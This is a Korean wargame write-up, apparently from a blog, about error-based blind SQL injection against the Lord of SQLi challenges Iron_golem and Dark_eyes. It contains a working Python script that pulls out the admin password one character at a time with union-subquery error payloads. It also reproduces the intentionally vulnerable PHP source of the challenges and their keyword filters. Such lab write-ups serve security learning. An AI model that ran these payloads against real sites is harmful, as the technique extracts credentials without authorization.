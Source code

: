 pw에 '를 입력했을 때 오류가 나는 것을 알 수 있고 이를 바탕으로 Error Based SQL-I를 시도해 볼 수 있다.

의도적으로 error를 발생시켜 쿼리가 참인지 알 수 있다.
mysql에서 단일 값을 반환해야하는데 두개의 행을 반환하면 오류가 날 수 있다는 것을 이용하여 python 코드를 작성했다.
```python
import requests
url = "https://los.rubiya.kr/chall/iron_golem_beb244fe41dd33998ef7bb4211c56c75.php"

cookie = {'PHPSESSID' : 'ovbfdu14h0vaeamskdlr10nttu'}

for len in range(100):
  print(len)
  param = {'pw': f"' or if(length(pw)={len},(select 1 union select 2), 0)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if "Subquery" in res.text:
    print(len)
    break

length = 32
password = ""
for len in range(1, length+1):
  for pw in range(ord('0'), ord('z')):
    param = {'pw': f"' or if(ord(substr(pw,{str(len)},1))={str(pw)},(select 1 union select 2), 0)#"}
    res = requests.get(url=url,  params=param, cookies=cookie)
    if "Subquery" in res.text:
      password += chr(pw)
      print(password)
      break
        
print(password.lower())
```
<br>

## Dark_eyes
```php
<?php
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit();
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
  highlight_file(__FILE__);
?>
```
### exploit
Iron_golem 문제와 비슷하지만 필터링하는 것이 더 많다.<br>
Iron_golem문제처럼 '을 입력해봤지만 빈 화면이 출력되었다.<br>
